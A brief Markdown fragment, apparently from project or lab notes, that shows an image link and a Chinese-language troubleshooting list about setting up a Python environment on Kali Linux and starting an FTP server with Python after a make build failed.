

---

## 遇到的问题及解决方案

- kali中安装python库最好要创建python环境
- ftp服务器创建时make报错，后面选择直接使用python启动ftp服务

---